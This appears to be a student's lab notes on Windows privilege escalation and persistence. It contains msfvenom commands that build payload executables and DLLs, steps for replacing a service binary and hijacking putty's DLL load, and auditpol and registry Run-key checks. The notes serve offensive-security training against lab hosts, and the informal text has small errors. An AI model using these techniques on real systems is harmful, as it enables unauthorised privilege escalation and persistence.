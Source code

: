 # Privilege Escalation, Persistence & covering your tracks


## DLL Search Order
executables check the following locations (in opposite order)
- HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs
- The directory the the Application was run from
- The directory specified in in the C+ function GetSystemDirectory()
- The directory specified in the C+ function GetWindowsDirectory()
- The current directory

WILL NEED AUDITPOL COMMAND ON EXAM
![image](https://github.com/hannahsfrommt/Security/assets/140441321/81887602-5242-4b0c-b127-69612f44ed69)



## DEMO
### ~binary replacement concept~
open services app
take advantage of lazy admins
organize by description
go to files and see if can add files, or replace names
pull up linux op station
`msfvenom -p windows/exec CMD='cmd.exe /c "whoami" > C:\\Users\DemoAdmin\Desktop\whoami.txt' -f exe > 7z.exe`
`ls`
`file 7z.exe`
get this to our demo box
on windows cmd
`scp student@10.50.X.X:7z.exe .`
copy it into directory on windows file system 
changed the name of theirs and made mine the actual name so it fires up my version at start up
restart box
see whoami.txt on the Desktop

### ~schtasks~
open up task scheduler
scheduled tasks should stand out to you
might see no description
look at trigger and understand it
remember system runs scheduled tasks
what is the action

### ~dll hijacking~
look at file in file system
see cannot write to directory, use admin priv to write hehe (could do the same thing as before w the msfvenom)
press view to see full names and hidden files
download process monitor and unzip it in file system
alternative binaries download putty.exe
open process monitor 
filter > filter
Path contains .dll
Process Name comtains putty.exe
Result contains .dll
cant replace binary so going to replace dll
go on linux again
`msfvenom -p windows/exec CMD='cmd.exe /c "whoami" > C:\\Users\DemoAdmin\Desktop\whoamiPutty.txt' -f dll > SSPICLI.DLL`
`ls`
`file SSPICLI.DLL`
on windows box
`scp student@10.50.X.X:SSPICLI.DLL ./Desktop`
see dll is sitting on desktop
throw it in the same place as putty
now launch putty and it called out our dll bc it checks the same directory first

### ~logs~
in windows cmd
`auditpol /get /category:*`
`auditpol /get /category:* | findstr "Success and Failure"`
open event viewer
see application, security (log ons), system(system start and stop)
on right you can filter for event id for example...can google the event id

### ~registry~
regedit 
look at HKLM/SOFTWARE/Microsoft/Windows/CurrentVersion/Run or RunOnce
check it is of value
